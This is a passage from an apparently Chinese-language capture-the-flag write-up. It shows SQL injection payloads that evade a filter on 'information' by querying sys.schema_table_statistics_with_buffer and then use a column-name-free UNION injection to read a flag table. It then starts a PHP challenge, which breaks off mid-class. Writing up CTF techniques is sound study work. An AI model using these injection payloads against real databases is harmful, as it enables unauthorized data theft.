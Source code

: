 ![](../../../../images/cf17551f180a5bd27bf0a09720d076ad.png)

查一下库名，information 被过滤了，这里可以使用 sys.schema_table_statistics_with_buffer。

```sql
1' UNION SELECT * FROM ((SELECT 1)A join (SELECT 2)B join (SELECT 3)C join (SELECT 4)D join (SELECT group_concat(table_name) FROM sys.schema_table_statistics_with_buffer WHERE table_schema=database())E)#


```

![](../../../../images/40b98041b89fd14aaffd70b4eee62a25.png)

由于 information 被过滤，这里得走无列名注入。

```sql
1' UNION SELECT * FROM (SELECT * FROM ((SELECT 5)E JOIN (SELECT 1)A JOIN (SELECT 2)B JOIN (SELECT 3)C JOIN (SELECT 4)D) UNION SELECT * FROM ((SELECT 1)A JOIN (SELECT 2)B JOIN (SELECT 3)D JOIN(SELECT * FROM DataSyncFLAG)C))AS A#


```

![](../../../../images/213376b9ebbf04178f91e84ed4e5635b.png)



# pExpl
```php
 <?php
error_reporting(0);


class FileHandler {
    private $fileHandle;
    private $fileName;

    public function __construct($fileName, $mode = 'r') {
        $this->fileName = $fileName;
        $this->fileHandle = fopen($fileName, $mode);
        if (!$this->fileHandle) {
```